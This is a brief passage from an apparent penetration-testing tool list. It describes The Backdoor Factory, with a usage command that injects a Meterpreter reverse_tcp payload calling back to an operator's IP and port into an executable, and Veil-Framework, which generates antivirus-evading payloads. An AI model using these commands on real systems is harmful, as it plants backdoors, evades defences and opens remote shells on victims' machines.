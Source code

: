 * **Description:** The Backdoor Factory is a Python-based tool that allows for the automatic injection of shellcode into various file types, making them malicious. It can be used to create backdoored executables.
*   **Usage Example:**

    ```bash
    ./backdoor.py -f input.exe -H <your_ip> -P <your_port> -s windows/meterpreter/reverse_tcp
    ```
* **Note:** This tool can transform binaries into backdoored versions.

{% embed url="https://github.com/secretsquirrel/the-backdoor-factory" %}

### [**Veil-Framework**](https://github.com/Veil-Framework/)

* **Description:** Veil is a framework designed for generating undetectable payloads for penetration testing purposes. It focuses on evasion techniques to bypass antivirus detection.
*   **Usage Example:**

    ```bash
    ./Veil-Evasion.py
    ```
* **Note:** Veil provides a menu-driven interface to generate different types of payloads, including shellcodes and executables.

{% embed url="https://github.com/Veil-Framework/" %}
